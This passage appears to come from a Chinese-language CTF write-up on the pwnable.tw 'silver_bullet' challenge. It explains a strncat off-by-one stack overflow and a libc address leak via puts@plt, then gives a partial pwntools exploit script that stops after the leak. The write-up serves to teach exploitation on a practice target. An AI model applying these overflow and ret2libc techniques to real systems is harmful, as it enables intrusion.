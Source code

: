 power值被strncat添加的\x00覆盖，之后加上powerup的新值，这就导致绕过powerup中的长度判断，可以继续向堆栈写入从而导致栈溢出。

如何泄露libc基址，参考wp思路：覆盖返回地址为puts函数plt调用puts函数，然后puts函数返回地址为main函数首地址，参数为puts的got值。

由于strncat会添加\x00所以只需要7个字节就可以覆盖至返回地址处

![image-20220421105431314](pwnabletw.assets/image-20220421105431314.png)

exp

```python
from pwn import *

context(arch="i386",os="linux",log_level="debug")

elf = context.binary = ELF('./silver_bullet')

#elf_libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
#io = process('./silver_bullet')

elf_libc = ELF('libc_32.so.6')
io = remote('chall.pwnable.tw', 10103)


def Create(description):
	io.recvuntil('Your choice :')
	io.send(str(1))
	io.recvuntil(':')
	io.send(description)

def Powerup(description):
    io.recvuntil('Your choice :')
    io.send(str(2))
    io.recvuntil(':')
    io.send(description)
 
def Beat():
    io.recvuntil('Your choice :')
    io.send(str(3))

Create('A'*0x2C)
Powerup('A'*0x4)

main_addr = elf.symbols['main']
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']

#Powerup(p32(0xffffffff)+p32(0xffffff)+p32(puts_plt)+p32(main_addr)+p32(puts_got))
Powerup("\xff"*7+p32(puts_plt)+p32(main_addr)+p32(puts_got))
Beat()
#gdb.attach(io)
io.recvuntil('Oh ! You win !!\n')
puts = u32(io.recv(4))
```